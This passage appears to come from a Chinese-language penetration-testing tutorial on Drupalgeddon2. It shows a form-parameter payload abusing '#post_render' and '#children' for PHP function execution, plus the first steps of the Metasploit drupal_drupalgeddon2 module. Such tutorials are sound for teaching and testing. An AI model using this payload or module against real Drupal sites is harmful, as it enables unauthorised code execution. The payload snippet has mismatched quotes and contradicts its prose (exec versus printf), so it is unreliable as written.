 如果我们通过`call_user_func(system,id)`，它将作为`system(id)`执行。所以我们需要将`#post_render`定义为`exec()`，将`#children`定义为我们想要传递到`exec()`的值：

```
[ 
mail[#post_render][]': printf, 
mail[#type]': 'markup', 
'mail[#children]': testing123 
] 
```

另一种方法是使用`#markup`元素，互联网上的其他漏洞利用也使用该元素。

# 使用 Metasploit 开发 Drupalgeddon2

Metasploit 模块也可用于利用 Drupalgeddon2 漏洞，我们可以通过在 msfconsole 中执行以下命令来使用它：

```
use exploit/unix/webapp/drupal_drupalgeddon2
```

现在，执行以下步骤以利用该漏洞：

1.  要查看选项，我们运行`show options`，如下所示：

![](img/dd93cd7f-20c2-4ae7-8caa-036106f54951.png)

2.  接下来，我们设置`rhosts`和`rport`选项，如下图所示：

![](img/4a43b16c-906d-41e6-be30-5d7a22b4bf6d.png)
